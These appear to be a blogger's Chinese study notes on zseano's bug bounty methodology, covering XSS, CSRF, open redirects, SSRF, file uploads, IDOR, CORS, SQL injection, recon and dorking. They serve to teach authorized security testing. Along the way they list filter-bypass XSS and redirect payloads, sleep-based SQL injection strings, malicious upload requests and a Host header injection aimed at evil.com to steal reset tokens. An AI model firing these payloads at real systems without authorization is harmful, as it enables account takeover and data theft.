 ```yaml
---
title: '《zseano''s methodogy》学习笔记'
date: 2022-02-01 22:25:01
tags: [笔记,学习笔记]
published: true
hideInList: false
feature: 
isTop: false
---
```

# 《zseano's methodogy》学习笔记

一些图片没有上传,本地和notion好好的,上传上来格式有些emmm(看阅读时间要35min也能够知道完整的文章目前博客显示不完整),完整笔记可以联系我tg. 之前看书写的了,现在分享出来,希望能帮助到其他人.zseano的这本书可以在他的网站上找到,对于小白的我非常的有帮助!


- never go in with the mindset of trying every type of vulnerability possible
- all about spending months on the same program with the intention of diving as deep as possible 
- to begin with I am focused purely
  on finding areas（第一次尝试，需要确认一个你主要尝试的目标/方向）



# Common issues I start with & why

## Cross Siet Scripting(XSS)

XSS是最好预防的漏洞，存在WAF拦截，往往意味着application易受XSS攻击。关于绕WAF的payload：https://github.com/0xInfection/Awesome-WAF#how-wafs-work



### Step One:Testing different encoding and checking for any weird behaviour



尝试：

- 输入`<h2>`,`<img>`等

- 去看那些是被允许的，哪些是不被允许的。理解，目标是如何处理encoding的。例如：如果被过滤为`&lt` or `%3C`,那么尝试double encoding,例如：`%253C`以及`%26lt;`去看看如何处理这类的encoding.

  - 如果不管你尝试什么，你总是看到`&lt;script&gt; `或`%3Cscript%3E` ,那么，该相关参数可能不易受到XSS攻击

  补充：一些有趣的encoding：https://d3adend.org/xss/ghettoBypass



### Step Two: Reverse engineering the developers' thoughts

(this gets easier with time & experience)

这一步站在开发者的视角去推测他们会创造什么类型的过滤（以及问：为什么？）

- 切入点1-是否过滤完整的HTML tag：
  - 如果发现他们过滤`<script>`，`<iframe>`,`"onerror"=`,但是同时注意到他们不过滤`<script`。那么我们猜测：“是否只过滤完整的HTML tag”。我们可以尝试`<script src=//mysite.com?c=`
- 切入点2-是否维护着一个黑名单
  - 忽略了一些HTML tag：也许开发者忽略了类似于`<svg>`
  - 覆盖面：也许并不是全部参数都存在黑名单
  - 对于encoding如何处理？` <%00iframe`, `on%0derro` 



**Testing for XSS flow:" **

- 测试非而已HTML tag,例如`<h2>`

- 测试不完全的tag,例如`<iframe src=//zseano.com/c=`

- 测试encoding,例如`<%00h2?`（There are LOTS to try here,
  `%0d`,` %0a`,` %09` etc）

- 存在硬编码字符串的黑名单吗？测试` </script/x>` 有效吗？或者<ScRipt> 等

  

推荐的资源：

[Browser's-XSS-Filter-Bypass-Cheat-Sheet](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)





## Cross Site Request Forgery(CSRF)

CSRF一般是通过HTML form (`<form action=”/login”
method=”POST”>`),而且很容易被找到。经典的CSRF的例子是，改变一个用户的email为你 所控制的email地址，这将导致账户接管（account takeover)。

- 当你尝试发送空白的CSRF值时，是否有任何framework的信息通过error泄漏。

- 它是否反映了你的更改，但出现的了CSRF错误。

- 你是否在其他网站上看到了这个参数的名字

  

 Test their most secure features (account functions usually as mentioned above) and work your way backwards. you may
discover that some features have different CSRF protection. Now consider, why?



- 一个常见的开发者检查referer header的值是否是他们的网站。会适得其反因为检查只存在与referer标头被查找到，而标头不存在，不会检查。

  - 你可以构造一个空的referrer，如下：

  ​	`<meta name="referrer" content="no-referrer" /><iframe src="data:text/html;base64,form_code_here">`

  - 他们检查他们的域名是否存在于referer标头，你可以构造这样的referer：`https://www.yoursite.com/https://www.theirsite.com/` 

but typically all sensitive features should
be protected from CSRF, so find them and test there



## Open url redirects

> My favorite bug to find because I usually have a 100% success rate of using a
> “harmless” redirect in a chain if the target has some type of Oauth flow which
> handles a token along with a redirect



Open Url redirect举例，类似于：https://www.google.com/redirect?goto=https://www.bing.com/ 当浏览时，将会重定向URL到给定的参数（这里是www.bing.com）。许多开发者未对这类链接进行过滤或限制。但即使如此，过滤器有时可能会阻止你的前进。

以下是一些用于检测过滤器（filter）是否被使用的payload：

````
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use # \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (Also try %09, %00, %0a, %07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
````

Some common words I dork for on google to find vulnerable endpoints: (don't forget
to test for upper & lower case!)

````
return, return_url, rUrl, cancelUrl, url, redirect, follow, goto, returnTo, returnUrl, r_url,
history, goback, redirectTo, redirectUrl, redirUrl
````



-----------------------------

学习Oauth login flow works相关的知识：

https://www.digitalocean.com/community/tutorials/an-introduction-to-oauth-2

 在Ouath login的场景中，如果有一个登陆页面发出像这样的请求

https://www.target.com/login?client_id=123&redirect_url=/sosecure

通常redirect_url在`*.target.com`  的白名单中。Spot the mistake?
Armed with an open url redirect on their website you can leak the token because as the redirect occurs the token is smuggled with the request.

用户发送：

https://www.target.com/login?client_id=123&redirect_url=https://www.target.com/redirect?url=https://www.google.com/

登陆后被重定向到攻击者的网站并伴随授权的token.Account take over report incoming!

-----------------------------------

另一个常见的问题是人们没有正确编码，特别是目标只允许`/localRedirects`。你的payload可能看起来有些像`/redirect?goto=https://zseano.com/` ，但是当使用它时，`?goto=parameter`可能会在重定向中被丢弃。

在有多个参数的时候（通过&链接）重定向参数也有可能丢失。zseano总是要将特定值例如`& ? # / \ `进行编码，去让览器在第一个跳转后强行解码。

`Location: /redirect%3Fgoto=https://www.zseano.com/%253Fexample=hax`

第一次跳转，链接变为（浏览器自动将`%3F`化为`?`：

`https://www.example.com/redirect?goto=https://www.zseano.com/%3Fexample=hax`

当它再次跳转时，将会允许`?example`也一起被发送。你将会在下文读到更多关于此更有趣的。



有时你将需要根据跳转次数，来对`&`参数选择double encode次数

````
https://example.com/login?return=https://example.com/?redirect=1%26returnurl=https%3A%2F%2Fwww.google.com%2F


#第二条与第一条区别是需要两次解码。第一次解码后为：
#https://example.com/login？return=https://example.com/?redirect=1%26returnurl=https%3A%2F%2Fwww.google.com%2F
#第二次解码后则是和第一条完全一样。


https://example.com/login?return=https%3A%2F%2Fexample.com%2F%3Fredirect=
1%2526returnurl%3Dhttps%253A%252F%252Fwww.google.com%252F 

````

**当寻找open url redirects时也要牢记，他们可以被用来SSRF漏洞**

如果你发现重定向是通过`Location:`标头进行的，那么XSS是**不可能的**,然而如果它通过一些例如`window.location`来重定向，那么你应该测试`javascript:`而不是测试重定向到你的网站。因为这里有可能出现XSS。

一些常见的bypass filter

````
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`
````



## Server Side Request Forgery(SSRF)

SSRF是in-scope domain发出的一个请求到你所定义的一个URL/endpoint。有时并不总是标志着目标易受攻击。当hunting for SSRF，zseano通常寻找已经使用URL参数的特性。重点关注处理URL的参数的名称

当你测试srrf时，你应该总是测试他们如何处理重定向的。你能够通过XAMPP & NGrok 来（zseano写过这个方法找到apple的漏洞，见另一个笔记）



- 设置一个简单的重定向脚本，并查看目标如何解析和跟随重定向：。增加sleep(1000)在重定向前，你能导致服务器处理超时或挂起？
- 也许fileter只检查参数值而不检查redirect value.从而你能成功访问到内网。
- 当目标过滤外在网站时，利用开放重定向作为你的chain中的一部分。



除了关注URL参数，也需要查找他们可能使用的第三方软件，例如jira.



## File uploads for stored XSS & remote code execution

There is a 99% chance the developer has created a filter as to what files to allow and what to block.通常至少会有一个（或更多的）过滤在这里。

一般先尝试上传例如：

`.txt`,`.svg`,`.xml` 类型的文件。

这三种文件类型又是会被遗忘，并且通过过滤器。

- 首先上传`.txt` 检查filter过滤有多严格（是否说只允许图片，例如:`.jpg .png .gif`等) 
  - 以及只是简单地上传三种类型的图片（`.png .gif .jpg`)，通过这个给你一条狗他们是如何处理上传的指示
    - 例如，是否所有的照片被保存为统一格式而忽视我们上传的格式？他们是否不信任我们的任何输入并始终保存为 `.jpg`？
- 测试上传文件名（类似于XSS）
  - 测试名字`zseano.php/jpg` 。代码可能会看到`.jpg` 通过。但实则写入服务器的为`zseano.php`并忽略`/`后所有的内容。
  - 测试例如`zseano.html%0d%0a.jpg`  在这里`%0d%0a`是代表着换行。所以将保存为`zseano.html`。
  - 不要忘记文件名通常反应在页面上。你也可以走私一些XSS字符在文件名内。（一些开发者认为用户不会保存文件用`<`或`》`）

````
------WebKitFormBoundarySrtFN30pCNmqmNz2
Content-Disposition: form-data; name="file"; filename="58832_300x300.jpg<svg
onload=confirm()>"
Content-Type: image/jpeg
ÿØÿà
````



开发者究竟会检查什么，以及如何处理它。他们会相信任意我们所输入的吗？例如，我提供了以下：

````
------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename="zseano.jpg"
Content-Type: text/html
````

代码看到`.jpg` 思考这是图片扩展。从而相信了我的`content-type`并且把它作为`Content-Type:text/html`来映射吗？或者它基于file extension来设置content-type。如果，你提供了不带文件扩展名的（或者没有文件名），它会设置默认`content-type` 或默认文件扩展名吗？

````
------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename="zseano."
Content-Type: text/html

````



````
------WebKitFormBoundaryAxbOlwnrQnLjU1j9
Content-Disposition: form-data; name="imageupload"; filename=".html"
Content-Type: image/png
<html>HTML code!</html>
````

这些都是为了给它提供畸形（malformed)的输入以及看它们所信任的有多少。也许他们并不检查文件扩展名，相反检查图片大小。一些时候，如果你leave the image header this is enough to bypass the checks

````
------WebKitFormBoundaryoMZOWnpiPkiDc0yV
Content-Disposition: form-data; name="oauth_application[logo_image_file]";
filename="testing1.html"
Content-Type: text/html
‰PNG
<script>alert(0)</script>
````

File upload 将很可能包括某种类型的过滤器去防止恶意上传，所以一定要花足够时间去测试它们。



## Insecure Direct Object Reference(IDOR)

一个IDOR bug的例子。例如：https://api.zseano.com/user/1当查询的时候所给你的信息仅有用户的userid为“1”。改变user id为“2”，则应该给你一个错误的，并拒绝——想你展示你访问了其他的用户的详情。然而，如果他们是易受攻击的，那么，它将给你展示其他用户的信息。简而言之，IDOR就是改变数字为其他用户，并能看到返回的结果。

但并不总是简单的整数（1）那么简单，有时，你将会看到GUID（2b7498e3-9634-4667-b9ce-a8e81428641e）或者其他类型被加密的值。暴力破解GUID不可取，通常会检查该值是否哪里有泄漏。



- Tips：即使你看到了一些encrypted value,也要试着尝试一下integer！
- Tips：笔者对mobile apps的IDOR很重视。通常会有IDOR漏洞产生。

可能存在IDOR的地方：

- 网站上传照片功能处，你也可以查看其他用户的照片
  - 深入思考，如果你注册不同角色，你能以guest身份实施admin身份的动作吗？
- 非付费用户可以使用付费用户的内容吗？
- 在post请求处见到postdata为JSON，格式为以下(也适用于非JSON格式）：
  - `{"example":"example"},` 则就可以尝试诸如一个新的参数名：`{"example":"example","id":"1"}`



## CORS(Cross-Origin Resource Sharing)

另一个常被推荐的领域是查找**filtering** 

当你看到response中的header出现:“Access-Control-Allow-Origin:”。那么同时,有时根据场景你也需要"Access-Allow-Credentials:true"。这些header允许外部网站去阅读网站的内容。

如果request中需要会话cookie，则需要Allow-credentials。开发者通常创造过滤器从而只允许他们的domain去阅读内容，但是，谨记，只要存在过滤就存在绕过的可能性。

最常见的方式是尝试anythinghere**theirdomain.com**，他们通常ui检查他们的域名是否被查找到，就像这个例子中的一样。

在测试CORS的时候，你仅需添加`Origin: theirdomain.com` 在每一个你发起的请求里，然后创建一个grep,来检测`Access-Control-Allow-Origin` 。即使你发现了一个确认的endpoint包含该header,但是却不包含任意敏感信息，你也需要花费时间去尝试bypass。过滤器。开发人员总是重复使用代码，这里的“harmless” bypass也许会在你研究的随后起到作用。



## SQL Injection

特别需要注意的是，遗留代码更容易受到SQL injection,所以留意旧有功能。SQL injection能够简单地在站点上被测试，因为大多数代码都会进行某些数据库查询（举个例子，比如查询，他通常会用你的输入查询数据库）。

过去：

- 当测试SQL注入时，你能够简单地利用`‘ and `  去寻找错误，但自从过去以来发生了很多变化，许多开发者开始禁止error messages。

现在：

- 使用`sleep`进行盲注。例如：
  - `' or sleep(15) and 1=1#`
  - `' or sleep(15)#`
  - `' union select sleep(15),null#`



测试SQL诸如，采取和XSS一样的方法，并且是在整个web application中测试。

作者：**Being honest I do not have as much success
finding SQL as I do with other vulnerability types**



## Business/Application Logic

理解网站是如何工作的，并且尝试不同的技术去创造奇怪的行为，可能会导致一些有趣的发现。例如想象你的目标测试网站发放贷款，他们有最大限制是`£1,000`，如果你能简单地改为10000,并且bypass了他们的限制，那么你什么也没做仅仅是利用了你前面的功能。不需要扫描，没有奇怪的filter，没有真正涉及黑客行为，只是简单地检查该过程是否正常工作。

另一个常见的当hunting for application logic bugs的查找是新特性和旧特性的交互（**new features which interact with old features**），想象一些，你可以声明页面的所有权，但是你需要提供身份证明。

新特性出现让你升级页面去获取一些额外的好处，但是唯一需要的信息是有效付款数据。一旦提供，他们将加你为页面的所有者，且你会bypass掉认证步骤。当你继续阅读时，你会发现笔者的方法论就是花几天/几周时间去了解一个网站如何运行的，以及开发人员希望用户去输入/做什么，以及相处打破和绕过的方法。

另一个例子是一些企业逻辑漏洞能够注册一个用户，以example@target.com注册。一些时候这些账户拥有特权，例如没有速率限制和绕过某些验证。

当你对一个web application如何工作了解的时候，business/application逻辑漏洞就会浮出水面。你对他们所提供的也有了更清晰的了解。The more you use their website the more you’ll start to
understand how things SHOULD work





# Chosing a program

> I typically choose wide scope and well known names

> **There is no right or wrong answer to choosing a bug bounty program if I'm
> honest.**

> If the first few reports go well then I will continue



以下是确认你是否参与了运行良好的漏洞赏金计划的清单：

- 团队是否直接与你沟通，或是否100%依赖平台？能够与团队直接沟通与交流是最好的，如过program使用的是托管服务，则务必谨慎
- program活跃吗？scope最后一次更新是什么时候？（通常在bug bounty platform上存在"update"的tab）
- 团队如何处理“low hanging furit bugs” 在chains中能够制造更大的影响？团队是否视不同XSS都是一样的，或者他们认可你的工作甚至奖励更多？这是你的风险与回报将发挥作用的地方。一些programs将会为XSS支付相同的回报，而另一些则会根据影响来支付。
- 大概在3～5篇报告的响应时间。如果你在报告3个月以上仍在等待答复，那么思考在这个program是否值得花费更多的时间。很可能没有



# Writing notes as you hack

在前面笔者自己后悔自己第一次参与赏金计划时，没有记笔记（我也需要注意）

写笔记能够切实在当你未来卡住的时候起到帮助。当你觉得，你已经浏览过所有提供的特性时，你需要**回顾你的笔记** 去重温有趣的点，以及用新的心态尝试新的方法。

记录笔记的方法没有正确的和错误的，这里笔者提出了参考，

- 他自己使用sublime，，并且记录有趣的endpoint，有趣的行为，或参数。有时候，笔者会测试无法利用的某个feature/endpoint（想着我之后会回来的）。**Never burn yourself out**
- 另一件笔记需要记录的，是**create custom wordlists**
  - 假设，我们测试example.com的时候，发现了`/admin`,`/admin-new`,以及`/server_health`，伴随着参数`debug`和`isTrue` 。我们可以创建一个`examplecom-endpoints.txt & params.txt`,这样我们知道这些endpoint在特定的domain上工作。
  - 而且，你可以跨多个domains来测试所有的endpoints/parameters。并且创造一个 “global-endpoints.txt” ，开始提供常见的发现到的endpoint。Over time you will end up with lots of endpoints/parameters for specific domains and you will begin to map out a web application much easier.







# Let’s apply my methodology & hack！



## Step One: Getting a feel for things



 With that said, before I even open a program's in-scope domain I
want to know something.

**Has anyone else found anything and disclosed a writeup?**

在开始hacking之前，笔者将会google,hackerone disclosed以及OpenBugBounty上查找任何过去发现的问题。因为笔者想是否有有效的问题被发现，以及是否存在任何有趣的bypass.

- https://www.google.com/?q=domain.com+vulnerability
- https://www.hackerone.com/hacktivity
- https://www.openbugbounty.org/



测试公开披露的漏洞能够给你一个立即开始的起点，以及当你感受网站如何工作时，给你一个站在不同问题类型上的视角。一些时候，你甚至需要bypass old disclosed bugs！（https://hackerone.com/reports/504509 )

1. 在开始最初检查和运行任何扫描器前，笔者也先了解一下他们的web application是怎样工作的。在这一点上，笔者将测试上述列出的bugs足为他自己的总体意图——理解这些东西在一开始是怎样运行的。基于假设：”网站是安全的“ & ”它应该按意图的流程来“

2. 记住要**记笔记**。当笔者测试一些feature,例如register&login的时候，通常在大脑中会有一系列的问题，例如，我能够用我的社交账户登陆吗？这个在mobile app上表现的一致吗？如果我尝试其他的地里定位，我能够登陆后有更多的选项，例如WeChat。 哪些字符是不允许的？

   > **I let my thoughts naturally go down the rabbit hole because that's what makes you a natural hacker.**

​	  当你注册时，那些输入是你可控的？他们反映在那里？再次，手机注册时网站会使用不同的代码吗？笔者喜欢从简单的注册这里找到大量的XSS在mobile app上，而不是desktop。并且没有过滤！



-----



Below is a list of key features I go for on my first initial look & questions I ask
myself when looking for vulnerabilities in these areas. Follow this same approach
and ask the same questions and you may very well end up with the same answer I
get... a valid vulnerability!



### **Registration Process**



- 注册需要什么？
- 是否需要大量信息（Name,Location,bio,etc)
- 这些那里会在注册后所反映

一个随后的例子，当你注册以`BARKER`时，它会要求你输入display name,profile description以及upload a photo。他要求了很多信息能让你玩上几个小时，让我们分解它，并弄清楚我们应该寻找什么。



**Uploading a photo**

上文提到，我们想知道我们能上传什么类型的图片，所以我们上传普通的jpeg图片。但，改变扩展名为`.txt` ,`.xml`，`.svg`，然后看它如何处理的。这取决于web application工作方式，你可能看不到你上传的photo，直到你完成了注册流程。Now can you see why re-testing features multiple times comes into action?



**Display name and profile description**

同样，在你完成注册过程之前，这些可能会不被看到。但是他们在那里反映，哪些字符被允许？

不仅如此，还要考虑这些信息会在**哪里**被使用。想象一下，你能够通过`<``>`但是当你在桌面上浏览个人资料时却不会受到攻击，这个时候考虑mobile apps，或者与网站交互时（发布一个文章，添加一个人）。开发者只阻止了你页面的XSS吗？

Q&A:

- 我能够用自己的社交媒体张号码？

  - 如果是，这是通过某个类型的Oauth flow实现的并且包含我的token,我的token可能会被泄漏？允许哪类社交媒体？他们信任我的社交媒体上的哪些信息？

- Google知道这些注册页面吗？

  - Login/register页面的改变（为了用户体验），google机器人索引能够记住很多：

    ````
    site:example.com inurl:register inurl:& 
    
    site:example.com inurl:signup inurl:&
    
    site:example.com inurl:join inurl:&
    ````

    

### **Login Process ( and reset password)**

- 登陆页面上是否使用了重定向参数？

  答案通常是“是”，如果他们想人用户完成登陆后受控制的跳转。Even if you don’t see one being used always try the most common, in various upper/lower cases: ==returnUrl, goto,
  return_url, returnUri, cancelUrl, back, returnTo==

  



![image-20211202110132955](/home/koui/Documents/BB Notes/《zseano's methodogy》学习笔记.assets/image-20211202110132955-16384140965051.png)



- 如果我尝试使用`myemail%00@email.com`登陆会如何？它会识别为`myemail@email.com`吗，或许允许我登陆进？如果是，尝试注册`my%00email@email.com` 并尝试一个用户的takeover.在声明用户名时也要考虑同样的问题

- 我能够用我的社交账户登陆吗？

  If yes, is this implemented via some
  type of Oauth flow which contains tokens which I may be able to leak? What social
  media accounts are allowed? Is it the same for all countries? This would typically be
  related to the registration process however not always. Sometimes you can only
  login via social media and NOT register, and you connect it once logged in. (Which
  would be another process to test in itself!)

- mobile登陆流会和desktop有所不同吗？

​    记住，用户体验！mobile websites设计给不需要鼠标去导航只需要简单的导航。

- 重置你的密码的时候，用了哪些参数？

​	也许，这里有IDOR的漏洞（尝试诸如id参数）。host标头是否可信？尝试重置密码时，设置host为`Host: evil.com`，网站会信任该值并且发送到email吗，当用户点击这个链接的时候，是否会导致重置密码token泄漏（比如，链接到`evil.com/resetpassword?token=123`)

​     通常，你进行login/register/reset密码的时候要有速率限制（brute force），但通常考虑**informative/out of scope**，所以笔者不总是浪费世界。检查 program policy以及和他们对立的立场。大多数网站都采用了稳固的密码政策和2FA





### **Updating account information**



- 当你更新页面信息的时候，是否存在CSRF保护？

  （这里应该有，并且期待它存在。记住，我们期待这个网站一切都是安全的，并且我们要挑战我们自己绕过他们）。如果是，它是怎样生效的？如果我发送一个空白的CSRF token,或者同样长度的token会发生什么。



- 更改你的email/password,有第二步确认吗？

  如果没有，那么你可以将其与XSS（用XSS来实现账户接管）来作为一个攻击链。通常，它本身不是问题。但是如果program想看到XSS的影响，这个是必须的。



- 他们是如何处理基础的`< > " '` 字符，以及他们在哪里被映射？

  unicode又是怎样的呢？像`%09 %07 %0d%0a` 这些字符应该在一切可能的地方进行测试，  It’s mentioned a few times, but sometimes things can be overlooked. **Leave no stone unturned**

  

- 我能否在我自己的profile中输入我自己的URL？

  有什么针对`javascript:alert(0)`的过滤？这是我在设置个人资料时寻找的关键

  

- 更新账户的页面与mobile app有什么区别？

  大多数mobile app使用api来更新信息，所以也许它很容易受到IDOR影响。除了这个，也可以采用不同的过滤系统。笔者有很多例子：desktop端存在XSS过滤，但是对于mobile application却没有针对XSS的过滤。Perhaps the mobile team is
  not as educated on security as the desktop team? Maybe it was rushed.

- 如何处理photo/video上传（如果提供的话）？

  在它说仅能上传`.jpg` `.png`的前提下我还能上传`.txt`吗？他们存储这些文件在root domain还是托管在某处？即使他们托管在某处（example-cnd.com)检查该域名是否被包含在CSP，也许它会有用。

- 在我公开的profile上，有哪些信息是我可控的？

  关键是在于你能控制的在哪和怎样被映射。例如，有什么可以防止我在我的bio输入恶意HTML？也许它们过滤了`<``>`，并且反映为如下：

  `<div id=”example” onclick=”runjs(‘userinput&lt;&quot;’);”>`

  但是你可以使用` ‘);alert(‘example’);`



### Developer tools

开发者工具有时会包括一些类似于测试webhooks,oauth flows,graphql explorers。这些工具专门为 开发者设置的工具能够测试各种公开API.



- 托管到哪里？

  这个很重要，如果托管到AWS，你的目标则为AWS密钥

- **google for SSRF webhook and you’ll see**



这一章节不做过多笔记



### The main feature of the site

比如dropbox,笔者就会着重在处理文件上传并从那里开始。会在不同网站上链接自己账户查看第三方如何交互工作的。

**Map their features starting from the top**

As you test each feature you should overtime get a
mental mind map of how the website is put together 



- 所有的features仅在web application上提供，还是都提供了

他们有什么不同吗？如果你发现了只在手机app上的feature,而没有桌面版的 。不要忘记测试不同国家地区的，你也许发现不同国家/区域提供的也是不一样的。



- What features are actually available to me, what do they do and what type of data is handled?Do multiple features all use the same data source?



-  Can I pay for any upgraded features? If yes test with a paid vs free account. Can
   the free account access paid content without actually paying? Typically payment
   areas are the most missed as researchers are not happy to pay for potentially not
   finding an issue. Personally I have always found a bug after upgrading but this may
   differ from program to program.



- What are the oldest features? 

  Old code = bugs

- What new features do they plan on releasing?Can I find any reference to it already on their site？ Follow them on twitter & signup to their newsletters.

  一篇不错的文章：https://www.jonbottarini.com/2019/06/17/using-burp-suite-match-and-replace-settings-to-escalate-your-user-privileges-and-find-hidden-features/  ==《USING BURP SUITE MATCH AND REPLACE SETTINGS TO ESCALATE YOUR USER PRIVILEGES AND FIND HIDDEN FEATURES》==

- Do any features offer a privacy setting (private & public)? Spend time testing if
  something is simply working as they’ve intended it to. Is that post really private?

- If any features have different account level permissions (admin, moderator,user, guest)

#### Payment feature

- What features are available if I upgrade my account? Can I access them without paying? 

- \- What payment options are available for different countries?

  一些用于测试的卡号：http://support.worldpay.com/support/kb/bg/testandgolive/tgl5103.html

  以及：https://www.paypalobjects.com/en_GB/vhelp/paypalmanager_help/credit_card_numbers.htm



## Step Two:Expanding our attack surface

 

这一部分，笔者跑上述文中提到的subdomain扫描工具，去看看列出来的结果有什么新的。

笔者写到，在工具扫描的时候，会对网站的一些feature进行测试。例如如下的关键字：
`developer, affiliate, careers, upload, mobile, upgrade, passwordreset`



当你测试主要功能的时候，你需要记录下有趣的endpoints,这些endpoint会帮助你解决问题。

> There is no right answer as to what to dork for, the possibilities
> are endless. There is a great post I recommend you check out here - https://exposingtheinvisible.org/guides/google-dorking/



有时，这里会让作者忙上几天，因为google是世界上最出色的爬虫。

- 另一个研究人员容易忽视的问题就是在dorking是google的重复结果时。当你点击搜索的最后一也，点击“repeat the search with the
  omitted results included“会有更多的结果。

- 当你搜索的时候，你可以用"`-keyword`" 来去掉特定的你不感兴趣的endpoint。

> Don't forget to also check the results with a mobile user-agent as the Google results on a mobile are different to desktop.





- 笔者也会使用文件后缀名进行google dorking,例如：`php, aspx, jsp, txt, xml, bak` 。文件后缀名的泄漏会给你domain/server在网站上使用了什么技术栈的视角，也会帮助你决定使用什么样的**worldlist** （你甚至可能会幸运的找到敏感文件泄漏）。

>  **Don’t blindly use wordlists on your targets and actually use meaningful wordlists to yield better results**



- 同样的方法适用于Github（and other Search engines such as
  Shodan, BinaryEdg）。Dorking和搜索特定的字符串，例如：“domain.com” **api_secret, api_key, apiKey, apiSecret,password,admin_password **



-------

**After dorking**:

subdomain工具搜索完成，笔者使用XAMPP来快速扫描/robots.txt.

/robots.txt是一个很好的标识：子域名是否值得进一步扫描文件/目录

> Why robots.txt? 
>
> Because Robots.txt contains a list of endpoints the website owner does & does NOT want indexed by
> google so for example if the subdomain is using some type of third-party software then this may reveal information about what's on the subdomain.





> You can expand your robots.txt data by scraping results from WayBackMachine.org. WayBackMachine enables you to view a site's history from years ago and sometimes old files referenced in robots.txt from years ago are still present today
>
> I have high success with wide-scope programs and WayBackMachine





在对/robots.txt及子域名做对应处理后，接着，扫描一些公共endpoint,例如：`/admin`,`/server-status`以及成功扩大我的单词列表。你能够在本指南开发找到wordlists的引用以及工具。



​		主要看一些敏感文件/目录的暴露



>  creating a custom wordlist as you hunt can help you find
>  more endpoints to test for. 



学习进行扫描的同时——进行发现新的endpoint,也同时检查一些更新。学习如何构建自定义wordlists。，这对于你的研究来说至关重要。

在hunting中，记录你所发现的参数（特别是变量参数）是特别重要的。这节省了大量的时间。同时，积累的wordlists后，可以用burp配合在每一个endpoint使用。测试是否存在多个漏洞，例如XSS。







> This is one reason I created “InputScanner” so I could easily scrape each endpoint for any input name/id listed on the page, test them & note down for future reference.



> I define the position on /endpoint and then simply add discovered parameters onto the request, and from there I can use Grep to quickly check the results for any interesting behaviour. /endpoint?param1=xss”&param2=xss”. Lots of endpoints, lots of common parameters = bugs! (Don’t forget to test GET.POST! I have had cases where it wasn’t vulnerable in a GET request but it was in a POST. _GET vs $_POST)



深入研究。重复每个过程。尽可能学习一切。**The more you look, the more you learn.**



## Time to automate! Step Three:Rinse & Repeat

在这个点上，我花费了数月在同一个program上。而且有着完整的关于目标的mental mind map，我一路上所写的全部的笔记。

牢记这个事实，开发人员每天在持续更新新的代码，而十年前犯的错误如今仍在继续。保持tools检查新的改变，在你的笔记中列出有趣的endpoint。，保持dorking,测试他们提出的新的features。并且，你可以采用这个方法到另一个program中，

以下是笔者对于读者的几个建议：

- **扫描子域名，文件，目录&泄漏**

你需要将这个扫描流程自动化。这些过程耗费时间，你应当将时间耗费在hacking。上。You can use a service such as CertSpotter by SSLMate to keep up to date with new HTTPS certificates a company is creating and @NahamSecreleased LazyRecon to help automate your recon:https://github.com/nahamsec/lazyrecon



- **Changes on a website**

了解网站是如何工作的，然后不断地检查是否有新功能&特性。Don’t forget to also include .js files in those daily scans as they typically contain new code first before the feature goes live



# 笔者过去经验



把感兴趣的截图了（





## 补充

https://www.startpage.com/ 隐私搜索（google）